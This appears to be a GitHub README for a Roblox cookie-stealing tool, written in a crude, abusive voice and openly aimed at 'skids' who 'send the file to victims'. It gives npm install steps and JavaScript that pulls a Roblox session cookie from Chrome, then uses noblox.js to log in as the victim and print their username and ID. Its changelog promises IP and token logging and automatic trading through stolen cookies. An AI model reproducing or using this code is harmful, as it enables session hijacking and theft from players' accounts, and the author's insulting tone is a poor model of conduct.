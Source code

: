 #updates
```Nim
1. [Added] Cookie Logging
2. [Added] Ip Logging
3. [coming soon] Might add the Auto Trade Via cookie method later on if i am not lazy
4. [coming soon] finish up the api
5. [coming soon] fuck ur mom obv
6. [coming soon] token logging for the weebs
```

# Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc

![](image.png)


# STEPS FOR SKIDS

Install these first
```js
npm i github:ClockworkSquirrel/rbxcookie
```
```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How to check if it works

a simple fucking way to check this shitty ass logger is by

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()
const cbx = require("noblox.js")


async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
